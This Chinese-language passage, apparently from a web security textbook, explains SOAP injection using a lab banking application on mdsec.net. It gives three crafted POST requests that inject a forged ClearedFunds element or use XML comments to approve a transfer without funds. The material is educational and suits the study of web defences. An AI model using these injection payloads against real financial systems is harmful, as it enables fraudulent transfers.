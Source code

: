 因为XML是一种解释型语言，所以SOAP可能容易受到代码注入的攻击，其方式与已经描述的其他示例类似。 XML元素使用元字符`<`，`>`和`/`语法表示。 如果将包含这些字符的用户提供的数据直接插入SOAP消息中，则攻击者可能会干扰消息的结构，从而干扰应用程序的逻辑或引起其他不良后果。

考虑一个银行应用程序，其中用户使用HTTP请求启动资金转帐，如下所示：
```
POST /bank/27/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 65

FromAccount=18281008&Amount=1430&ToAccount=08447656&Submit=Submit
```
在处理此请求的过程中，以下SOAP消息在应用程序的两个后端组件之间发送：
```
<soap:Envelope xmlns:soap="http://www.w3.org/2001/12/soap-envelope">
	<soap:Body>
		<pre:Add xmlns:pre=http://target/lists soap:encodingStyle="http://www.w3.org/2001/12/soap-encoding">
			<Account>
				<FromAccount>18281008</FromAccount>
				<Amount>1430</Amount>
				<ClearedFunds>False</ClearedFunds>
				<ToAccount>08447656</ToAccount>
			</Account>
		</pre:Add>
	</soap:Body>
</soap:Envelope>
```
注意消息中的XML元素如何与HTTP请求中的参数相对应，以及`ClearedFunds`元素的添加。 在应用程序逻辑的这一点上，它确定没有足够的资金来执行请求的转帐，并将此元素的值设置为`False`。 结果，接收SOAP消息的组件不会对其起作用。

在这种情况下，您可以通过多种方式尝试将其注入SOAP消息，从而干扰应用程序的逻辑。 例如，提交以下请求会使附加的`ClearedFunds`元素插入到原始元素之前的消息中（同时保留SQL的语法有效性）。 如果应用程序处理遇到的第一个`ClearedFunds`元素，则在没有可用资金时，您可能会成功执行转帐：
```
POST /bank/27/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 119

FromAccount=18281008&Amount=1430</Amount><ClearedFunds>True
</ClearedFunds><Amount>1430&ToAccount=08447656&Submit=Submit
```
另一方面，如果应用程序处理它遇到的最后一个`ClearedFunds`元素，则可以向`ToAccount`参数注入类似的攻击。

另一种攻击类型是使用XML注释删除原始SOAP消息的一部分，并用您自己的元素替换删除的元素。 例如，以下请求通过`Amount`参数注入ClearedFunds元素，为ToAccount元素提供开始标签，打开注释，并在ToAccount参数中关闭注释，从而保留XML的语法有效性：
```
POST /bank/27/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 125

FromAccount=18281008&Amount=1430</Amount><ClearedFunds>True
</ClearedFunds><ToAccount><!--&ToAccount=-->08447656&Submit=Submit
```
另一种攻击类型是尝试从注入的参数中完成整个SOAP消息，并注释掉消息的其余部分。 但是，由于开头的注释不会与结尾的注释匹配，因此这种攻击会产生严格无效的XML，许多XML解析器将拒绝该XML。 此攻击仅可能针对自定义的本地XML解析器，而不是任何XML解析库：
```
POST /bank/27/Default.aspx HTTP/1.0
Host: mdsec.net
Content-Length: 176

FromAccount=18281008&Amount=1430</Amount><ClearedFunds>True
</ClearedFunds>
<ToAccount>08447656</ToAccount></Account></pre:Add></soap:Body>
</soap:Envelope>
<!--&Submit=Submit
```
